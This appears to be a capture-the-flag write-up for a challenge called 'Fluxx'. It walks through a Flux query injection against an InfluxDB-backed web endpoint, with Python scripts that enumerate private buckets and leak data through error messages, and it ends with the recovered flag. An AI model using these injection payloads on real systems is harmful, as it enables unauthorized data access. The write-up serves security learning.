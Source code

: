 # Fluxx

## Description
```
Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data.I used a database which is designed for handling high volumes of timestamped data. 
But I think its vulnerable find it and get he flag.

To be noted: The challenge resets after sometime. So please wait for a while if you see any error. 
```

## Writeup
Visiting the website I got some interesting response. <br/>
```
Please visit /query?data= to travel with time.
```

For efficiency reasons I made a python script to send my payload. <br/>
```py
import requests

base_URL = 'http://66.228.53.87:9001/'

data = '1" OR 1=1--'

req = requests.get(f'{base_URL}query?data={data}')

print(req.text)
```

Executing this gives me an interesting response. <br/>
```sh
kali@kali python3 ./solve.py
HttpError: compilation failed: error @1:82-1:158: expected RPAREN, got EOF     

error @1:152-1:153: invalid expression @1:151-1:152: =

error @1:155-1:158: got unexpected token in string expression @1:158-1:158: EOF
```

Looking up the error I found that it was a response from `InfluxDB`. <br/>
Knowing that I looked up `NoSQL-Injection` for InfluxDB where I found a good [Website](https://rafa.hashnode.dev/influxdb-nosql-injection). <br/>
There I found the query below which is able to enumerate private buckets. <br/>
```
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^a.*/ and die(msg:r.name)) 
//
```

Having this I wrote a python script to bruteforce every private bucket possible. <br/>
```py
import requests, urllib.parse

base_URL = 'http://66.228.53.87:9001/'

letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

for char in list(letters):

    payload = f'") |> yield(name: "1337")\nbuckets() |> filter(fn: (r) => r.name =~ /^{char}.*/ and die(msg:r.name))\n//'

    encoded_payload = urllib.parse.quote(payload, safe='')
    req = requests.get(f'{base_URL}query?data={encoded_payload}')

    if req.text != '[]':
        print(req.text)
```

Executing this I was able to obtain the flag which concludes this writeup. <br/>
```sh
kali@kali python3 ./solve.py
HttpError: runtime error @2:14-2:69: filter: failed to evaluate filter function: KCTF{g0UPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9OL}
```